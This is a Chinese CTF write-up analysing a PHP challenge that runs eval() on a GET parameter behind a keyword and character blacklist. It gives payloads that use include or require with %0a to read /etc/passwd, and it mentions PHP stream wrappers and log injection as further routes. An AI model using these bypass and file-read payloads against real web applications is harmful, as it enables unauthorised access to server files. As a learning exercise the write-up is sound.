


```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:16
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

flag

system

php

cat

sort

shell

.

空格

'

`

echo 

;

(

:

"

<

=

/

数字


依旧可以利用include尝试文件读取

```
?c=include%0a$_GET[a]?>&a=/etc/passwd
```



成功读取/etc/passwd，也就是可以使用

data://text/plain

php://filter

php://input三个伪协议

也可以尝试日志注入


同样，require也可以使用

```
?c=require%0a$_GET[a]?>&a=/etc/passwd
```




而这里%0a是为了尝试绕过空格

当然这里空格可以选择绕过，也可以不绕

